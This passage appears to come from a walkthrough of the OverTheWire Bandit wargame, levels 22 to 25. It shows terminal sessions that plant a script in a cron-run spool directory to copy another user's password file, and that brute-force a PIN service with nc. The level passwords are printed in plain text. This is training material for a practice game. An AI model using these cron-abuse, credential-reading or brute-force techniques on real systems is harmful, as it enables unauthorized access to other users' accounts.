 ```
cat /etc/bandit_pass/$myname > /tmp/$mytarget
bandit22@bandit:~$ echo I am user bandit23 | md5sum | cut -d ' ' -f 1
8ca319486bfbbc3663ea0fbe81326349
bandit22@bandit:~$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

## [Bandit Level 23 → Level 24](https://overthewire.org/wargames/bandit/bandit24.html)
```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
bandit23@bandit:~$ printf '#!/bin/sh\ncat /etc/bandit_pass/bandit24 > /tmp/pass.txt' > /var/spool/bandit24/run.sh && chmod 777 /var/spool/bandit24/run.sh
bandit23@bandit:~$ cat /tmp/pass.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

## [Bandit Level 24 → Level 25](https://overthewire.org/wargames/bandit/bandit25.html)
```
bandit24@bandit:~$ for i in {0001..9999}; do echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> /tmp/wordlist; done
bandit24@bandit:~$ cat /tmp/wordlist | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
<<SNIP>>
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```
